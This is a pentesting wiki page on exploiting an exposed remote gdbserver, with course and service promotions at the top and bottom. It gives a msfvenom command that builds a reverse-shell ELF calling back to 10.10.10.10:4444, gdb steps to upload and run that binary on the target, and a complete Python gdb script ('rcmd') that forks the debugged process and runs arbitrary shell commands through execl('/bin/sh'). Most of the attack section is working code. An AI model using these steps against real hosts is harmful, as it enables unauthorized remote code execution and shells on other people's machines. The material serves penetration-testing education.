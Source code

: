 # Pentesting Remote GdbServer

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**Instantly available setup for vulnerability assessment & penetration testing**. Run a full pentest from anywhere with 20+ tools & features that go from recon to reporting. We don't replace pentesters - we develop custom tools, detection & exploitation modules to give them back some time to dig deeper, pop shells, and have fun.

{% embed url="https://pentest-tools.com/" %}

## **Basic Information**

**gdbserver** is a tool that enables the debugging of programs remotely. It runs alongside the program that needs debugging on the same system, known as the "target." This setup allows the **GNU Debugger** to connect from a different machine, the "host," where the source code and a binary copy of the debugged program are stored. The connection between **gdbserver** and the debugger can be made over TCP or a serial line, allowing for versatile debugging setups.

You can make a **gdbserver listen in any port** and at the moment **nmap is not capable of recognising the service**.

## Exploitation

### Upload and Execute

You can easily create an **elf backdoor with msfvenom**, upload it and execute is:

```bash
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.10.11:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```

### Execute arbitrary commands

There is another way to **make the debugger execute arbitrary commands via a** [**python custom script taken from here**](https://stackoverflow.com/questions/26757055/gdbserver-execute-shell-commands-of-the-target).

```bash
# Given remote terminal running `gdbserver :2345 ./remote_executable`, we connect to that server.
target extended-remote 192.168.1.4:2345

# Load our custom gdb command `rcmd`.
source ./remote-cmd.py

# Change to a trusty binary and run it to load it
set remote exec-file /bin/bash
r

# Run until a point where libc has been loaded on the remote process, e.g. start of main().
tb main
r

# Run the remote command, e.g. `ls`.
rcmd ls
```

First of all **create locally this script**:

{% code title="remote-cmd.py" %}
```python
#!/usr/bin/env python3

import gdb
import re
import traceback
import uuid


class RemoteCmd(gdb.Command):
    def __init__(self):
        self.addresses = {}

        self.tmp_file = f'/tmp/{uuid.uuid4().hex}'
        gdb.write(f"Using tmp output file: {self.tmp_file}.\n")

        gdb.execute("set detach-on-fork off")
        gdb.execute("set follow-fork-mode parent")

        gdb.execute("set max-value-size unlimited")
        gdb.execute("set pagination off")
        gdb.execute("set print elements 0")
        gdb.execute("set print repeats 0")

        super(RemoteCmd, self).__init__("rcmd", gdb.COMMAND_USER)

    def preload(self):
        for symbol in [
            "close",
            "execl",
            "fork",
            "free",
            "lseek",
            "malloc",
            "open",
            "read",
        ]:
            self.load(symbol)

    def load(self, symbol):
        if symbol not in self.addresses:
            address_string = gdb.execute(f"info address {symbol}", to_string=True)
            match = re.match(
                f'Symbol "{symbol}" is at ([0-9a-fx]+) .*', address_string, re.IGNORECASE
            )
            if match and len(match.groups()) > 0:
                self.addresses[symbol] = match.groups()[0]
            else:
                raise RuntimeError(f'Could not retrieve address for symbol "{symbol}".')

        return self.addresses[symbol]

    def output(self):
        # From `fcntl-linux.h`
        O_RDONLY = 0
        gdb.execute(
            f'set $fd = (int){self.load("open")}("{self.tmp_file}", {O_RDONLY})'
        )

        # From `stdio.h`
        SEEK_SET = 0
        SEEK_END = 2
        gdb.execute(f'set $len = (int){self.load("lseek")}($fd, 0, {SEEK_END})')
        gdb.execute(f'call (int){self.load("lseek")}($fd, 0, {SEEK_SET})')
        if int(gdb.convenience_variable("len")) <= 0:
            gdb.write("No output was captured.")
            return

        gdb.execute(f'set $mem = (void*){self.load("malloc")}($len)')
        gdb.execute(f'call (int){self.load("read")}($fd, $mem, $len)')
        gdb.execute('printf "%s\\n", (char*) $mem')

        gdb.execute(f'call (int){self.load("close")}($fd)')
        gdb.execute(f'call (int){self.load("free")}($mem)')

    def invoke(self, arg, from_tty):
        try:
            self.preload()

            is_auto_solib_add = gdb.parameter("auto-solib-add")
            gdb.execute("set auto-solib-add off")

            parent_inferior = gdb.selected_inferior()
            gdb.execute(f'set $child_pid = (int){self.load("fork")}()')
            child_pid = gdb.convenience_variable("child_pid")
            child_inferior = list(
                filter(lambda x: x.pid == child_pid, gdb.inferiors())
            )[0]
            gdb.execute(f"inferior {child_inferior.num}")

            try:
                gdb.execute(
                    f'call (int){self.load("execl")}("/bin/sh", "sh", "-c", "exec {arg} >{self.tmp_file} 2>&1", (char*)0)'
                )
            except gdb.error as e:
                if (
                    "The program being debugged exited while in a function called from GDB"
                    in str(e)
                ):
                    pass
                else:
                    raise e
            finally:
                gdb.execute(f"inferior {parent_inferior.num}")
                gdb.execute(f"remove-inferiors {child_inferior.num}")

            self.output()
        except Exception as e:
            gdb.write("".join(traceback.TracebackException.from_exception(e).format()))
            raise e
        finally:
            gdb.execute(f'set auto-solib-add {"on" if is_auto_solib_add else "off"}')


RemoteCmd()
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**Instantly available setup for vulnerability assessment & penetration testing**. Run a full pentest from anywhere with 20+ tools & features that go from recon to reporting. We don't replace pentesters - we develop custom tools, detection & exploitation modules to give them back some time to dig deeper, pop shells, and have fun.

{% embed url="https://pentest-tools.com/" %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
